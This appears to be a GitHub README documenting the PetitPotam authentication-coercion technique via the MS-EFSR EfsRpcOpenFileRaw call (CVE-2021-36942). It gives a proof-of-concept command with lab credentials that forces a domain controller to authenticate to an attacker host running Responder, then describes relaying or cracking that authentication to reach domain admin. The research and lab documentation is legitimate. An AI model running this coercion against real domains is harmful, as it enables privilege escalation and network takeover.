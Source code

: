 # MS-EFSR - Remote call to EfsRpcOpenFileRaw (opnum 0)

## Summary

 - **Protocol**: [[MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31)

 - **Protocol UUID**: c681d488-d850-11d0-8c52-00c04fd90f7e

 - **Protocol version**: 1.0

 - **Function name**: [`EfsRpcOpenFileRaw`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/ccc4fb75-1c86-41d7-bbc4-b278ec13bfb8)

 - **Function operation number**: `0`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine.

Then we need to connect to the remote SMB pipe `\PIPE\lsarpc` and bind to (uuid `c681d488-d850-11d0-8c52-00c04fd90f7e`, version `1.0`) in order to perform calls to RPC functions of the `MS-EFSR` protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\lsarpc`. This pipe is connected to the protocol [[MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) and allows to call RPC functions of this protocol. It will then call the remote [`EfsRpcOpenFileRaw`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/ccc4fb75-1c86-41d7-bbc4-b278ec13bfb8) function on the Windows Server (192.168.2.1) with the following parameters:

```cpp
EfsRpcOpenFileRaw("\\\\192.168.2.51\\share\\file.txt\x00", 1)
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\NETLOGON` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!

---

## Function technical detail

```cpp
long EfsRpcOpenFileRaw(
    [in] handle_t binding_h,
    [out] PEXIMPORT_CONTEXT_HANDLE* hContext,
    [in, string] wchar_t* FileName,
    [in] long Flags
);
```

 - **binding_h**: An explicit binding handle created by the client. This is an RPC binding handle parameter, as specified in [C706] and [MS-RPCE] section 2.


 - **hContext**: An implementation-specific context handle that is used in subsequent calls by the client to the EfsRpcReadFileRaw method, EfsRpcWriteFileRaw method, or EfsRpcCloseRaw method.


 - **FileName**: An EFSRPC identifier, as specified in section 2.2.1.


 - **Flags**: This MUST be set to some combination of the following values. All servers and clients MUST support the CREATE_FOR_IMPORT flag. Servers that implement a hierarchical encrypted store, such as the NTFS file system, SHOULD also support the CREATE_FOR_DIR flag. Servers SHOULD support the OVERWRITE_HIDDEN flag, and MAY interpret it in implementation-specific ways. A client MUST ensure that all the flags it does not support are set to zero. A server MUST ignore all flags it does not support. Flag values are specified in the following table.
 
| Name | Value | Description |
|---|---|---|
| `CREATE_FOR_IMPORT` | `0x00000001` | Open the object for writing (that is, restore). If this flag is not set, open the object for reading (that is, backup). |
| `CREATE_FOR_DIR` | `0x00000002` | This flag is only intended for use in conjunction with the CREATE_FOR_IMPORT flag. It indicates that the object being restored is a container for other objects.<42> |
| `OVERWRITE_HIDDEN` | `0x00000004` | This flag is only intended for use in conjunction with the CREATE_FOR_IMPORT flag. This flag indicates a request from the client for the server to overwrite an existing object even if the existing object is "hidden". The meaning of "hidden" is specific to the implementation of the data store, and this meaning does not affect protocol behavior. |
| `EFS_DROP_ALTERNATE_STREAMS` | `0x00000010` | This flag indicates that content from any alternate data streams, if present and implemented by the storage system, will be ignored. |


## References

 - Documentation of protocol [MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31


 - Documentation of function `EfsRpcOpenFileRaw`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/ccc4fb75-1c86-41d7-bbc4-b278ec13bfb8


 - CVE-2021-36942 Windows LSA Spoofing Vulnerability: https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36942


 - This call was pointed out by [@topotam77](https://twitter.com/topotam77/) on Jul 18, 2021: https://twitter.com/topotam77/status/1416833996923809793